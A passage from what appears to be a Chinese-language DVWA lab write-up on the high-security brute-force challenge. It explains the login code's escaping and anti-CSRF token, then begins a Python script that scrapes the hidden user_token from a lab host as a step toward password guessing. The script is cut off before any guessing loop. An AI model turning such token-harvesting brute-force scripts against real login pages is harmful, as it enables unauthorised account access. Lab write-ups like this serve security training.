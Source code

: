 ```php
        // Get users details
        $avatar = mysql_result( $result, 0, "avatar" );

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "<img src=\"{$avatar}\" />";
    }
    else {
        // Login failed
        sleep( rand( 0, 3 ) );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    }

    mysql_close();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

`stripslashes()`:去除string中的反斜杠`\`。

`mysql_real_escape_string()`:转义 SQL 语句中使用的字符串中的特殊字符（\x00，\n，\r，\，‘，“，\x1a）。

还用了`Anti-CSRF token`抵御CSRF。

然后我们再在网页的源码中发现隐藏的`user_token`。

我们尝试提交一次请求，发现url中含有参数`user-token`。

因此，判断该登录的逻辑为，后台通过`generateSessionToken()`产生token，然后传递到前端隐藏掉，在发起登录请求时，将`user_token`也传到后端，然后进行check，因此，爆破的时候不能再用bp进行。

通过python脚本来进行爆破，先请求服务器获得token，然后开始爆破。

```python
# 还可以将该脚本改成多线程的形式，加快速度

from bs4 import BeautifulSoup
import requests

header = {
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh,en;q=0.9,zh-CN;q=0.8',
    'Cache-Control': 'no-cache',
    'Connection': 'keep-alive',
    'Cookie': 'security=high; PHPSESSID=364ucqbn2j1mucgtmkpes17fd1',
    'Host': '172.16.34.167',
    'Pragma': 'no-cache',
    'Referer': 'http://172.16.34.167/dvwa/vulnerabilities/brute/',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36'
}

requrl = 'http://172.16.34.167/dvwa/vulnerabilities/brute/'


def get_token(requrl, header):
    resp = requests.get(requrl, headers=header)
    print(resp.status_code, len(resp.content))
    soup = BeautifulSoup(resp.content, 'html.parser')
    input = soup.select('input[type=hidden]')
```